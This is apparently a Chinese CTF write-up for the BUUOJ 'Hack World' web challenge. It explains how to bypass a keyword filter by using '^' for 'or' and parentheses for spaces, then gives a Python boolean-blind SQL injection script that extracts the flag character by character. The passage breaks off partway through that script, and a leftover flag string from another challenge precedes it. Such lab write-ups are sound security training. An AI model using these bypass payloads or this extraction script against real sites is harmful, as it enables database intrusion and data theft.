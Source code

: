 flag{c0db499e-7c62-46c7-a2ce-0bd9a239cc25}

 

 

 

### [[CISCN2019 华北赛区 Day2 Web1\]Hack World](https://buuoj.cn/challenges#[CISCN2019%20华北赛区%20Day2%20Web1]Hack%20World)

考点：SQLi、括号嵌套绕过空格、^符号绕过or

直接给了表名='flag'，列名='flag'。

 

fuzz，常规搞事儿关键字都被过滤；

想到了前几天做的finalSQLi，尝试用`^`代替`or`

```
0^1
//返回Hello, glzjin wants a girlfriend.和1的结果一样，说明起效了
```

那么尝试库名：

```
0^(length(database())>1)
//成功
```

ok，直接写脚本

需要注意的是substr(`(condition)`,1,1)的`condition子查询`，两边需要括号，不然来不了事儿。

exp：

```
#wh1sper
#bool盲注
import requests

host = 'http://14bb7de3-9b94-4870-9178-2fefa1bfc029.node3.buuoj.cn/index.php'

def mid(bot, top):
    return (int)(0.5*(top + bot))

def sqli():
    name = ''
    for j in range(1, 250):
        top = 126
        bot = 32
        while 1:

            #babyselect = "database()"-->ctftraining
            #babyselect = "version()"-->10.2.26-MariaDB-log

            babyselect = "(select(flag)from(ctftraining.flag))"
            select = "ascii(substr("+babyselect+",{},1))>{}".format(j, mid(top, bot))
            playload = "0^("+select+")"

            data = {
                "id": playload
            }

            #print(playload)
            r = requests.post(url=host, data=data)
            #print(r.text)
            if 'glzjin wants' in r.text:  # 成功
                if top - 1 == bot:      # top和bot相邻，说明name是top
                    name += chr(top)
```